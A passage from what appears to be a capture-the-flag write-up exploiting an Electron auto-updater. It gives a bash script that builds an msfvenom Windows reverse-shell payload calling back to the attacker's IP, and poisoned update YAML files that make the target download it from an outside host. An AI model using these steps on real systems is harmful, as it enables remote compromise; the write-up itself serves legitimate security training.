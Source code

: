 ## Replicating Steps

I wanted to make this script easily replicable, as I came back to this box and my IP had changed. So I wrote a quick bash script:

```bash
echo "Getting tun0 IP..."
ip=$(ip -4 addr show tun0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo "$ip"

echo "Making payload..."
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=$ip LPORT=9001 -b "\x00" -e x86/shikata_ga_nai -f exe -o "heedv1'Setup1.0.1.exe"

echo "Getting size of payload..."
size=$(stat -c%s "heedv1'Setup1.0.1.exe")
echo "$size" 
```

This just creates a payload with my `tun0` IP and outputs the size. I would eventually code a full Python solution that also uploads the YAML, but I needed to fix the syntax before I wrote that.

## Attempting to Fix YAML

I first wanted to try staying true to the original blog post and include a hyphen in front of the URL, which I hadn't tried yet:

```yaml
version: 1.0.1
files:
  - url: heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.193/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

This didn't get a hit.

Then I wanted to try what I think is the correct YAML syntax according to the ansible docs, which is with no hyphens - but I want to include the full URL in the filepath:

```yaml
version: 1.0.1
files:
  url: http://10.10.14.193/heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.193/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

This one got a download request!
